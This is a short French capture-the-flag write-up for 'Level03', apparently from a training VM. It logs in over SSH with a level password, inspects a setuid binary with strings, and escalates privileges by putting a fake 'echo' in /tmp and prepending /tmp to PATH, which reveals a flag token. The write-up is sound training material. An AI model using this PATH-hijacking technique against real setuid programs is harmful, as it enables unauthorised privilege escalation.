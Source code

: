 # Level03

Se connecter en tant que `level03`:

    $ ssh 192.168.1.124 -p 4242 -l level03
    level03@192.168.1.124's password: kooda2puivaav1idi4f57q8iq

---

	$ ls -l
	-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

	$ file level03
	(binary file with setuid setgid)

	$ ./level03
	Exploit me

On va analyser le programme avec `strings`

	$ strings level03
	...
	/usr/bin/env echo Exploit me
	...

On voit que la fonction system est appelée avec le parametre `/usr/bin/env 'echo' %s`

Il va falloir creer un `faux echo` qui va en fait executer getflag

	$ echo "/bin/getflag" > /tmp/echo
	$ chmod +x /tmp/echo

Puis ajouter /tmp dans le PATH en premier pour que le systeme le trouve dedans

	$ PATH=/tmp:$PATH

Et enfin lancer le binaire

	$ ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus


